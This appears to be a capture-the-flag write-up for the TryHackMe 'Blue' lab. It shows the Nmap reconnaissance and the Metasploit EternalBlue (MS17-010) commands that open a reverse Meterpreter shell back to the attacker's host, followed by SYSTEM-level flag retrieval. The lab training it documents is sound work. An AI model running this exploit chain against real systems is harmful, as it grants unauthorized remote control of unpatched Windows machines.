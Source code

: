 # TryHackMe - Blue

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | TryHackMe |
| **Challenge Name** | Blue |
| **Category** | Windows Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | TryHackMe |
| **Date Completed** | 2025-08-28 |

## Objective 🎯

Blue is a Windows machine vulnerable to the EternalBlue exploit (MS17-010). The goal is to exploit this vulnerability to gain system access and obtain both user and root flags. Classic Windows exploitation! 💻

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.10
- **OS**: Windows 7
- **Vulnerability**: MS17-010 (EternalBlue)

### Tools Used
- Nmap
- Metasploit
- EternalBlue exploit

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.10
```

## Methodology

### Step 1: Port Scan
Perform a comprehensive port scan to identify open services.

**Command/Code:**
```bash
nmap -sC -sV 10.10.10.10
```

**Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-28 10:00 UTC
Nmap scan report for 10.10.10.10
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows 7; CPE: cpe:/o:microsoft:windows_7
```

### Step 2: SMB Version Detection
Check the SMB version to confirm vulnerability.

**Command/Code:**
```bash
nmap --script smb-protocols 10.10.10.10
```

**Output:**
```
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|     3.02
```

### Step 3: EternalBlue Exploitation
Use Metasploit to exploit the MS17-010 vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.10
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.10:445 - Connecting to target for exploitation.
[*] 10.10.10.10:445 - Connection established for exploitation.
[*] 10.10.10.10:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.10:445 - Starting non-paged pool grooming
[*] 10.10.10.10:445 - Sending SMBv2 buffers
[*] 10.10.10.10:445 - Sending final payload
[*] Sending stage (201320 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.10:49158) at 2025-08-28 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.

**Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\SYSTEM
Computer        : JON-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Step 5: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
dir C:\Users
dir C:\Users\haris\Desktop
type C:\Users\haris\Desktop\user.txt
```

**Output:**
```
[REDACTED]
```

### Step 6: Find Root Flag
Search for the root flag.

**Command/Code:**
```bash
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\root.txt
```

**Output:**
```
[REDACTED]
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

### Complete Walkthrough
1. Perform port scan to identify open services
2. Confirm SMB vulnerability (MS17-010)
3. Use Metasploit EternalBlue exploit
4. Gain SYSTEM privileges through the exploit
5. Navigate to user directories to find flags
6. Extract both user and root flags

## Key Learnings 💡

- Understanding the EternalBlue vulnerability (MS17-010)
- Using Metasploit for Windows exploitation
- Post-exploitation techniques with Meterpreter
- Windows privilege escalation concepts
- SMB protocol vulnerabilities

## Tools and Resources

### Tools Used
- **Nmap**: Network scanning and service detection
- **Metasploit**: Exploitation framework
- **EternalBlue**: MS17-010 exploit module

### References
- [TryHackMe Blue](https://tryhackme.com/room/blue)
- [MS17-010 Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)

## Tags

`#tryhackme` `#windows` `#eternalblue` `#ms17-010` `#smb` `#metasploit` `#easy`
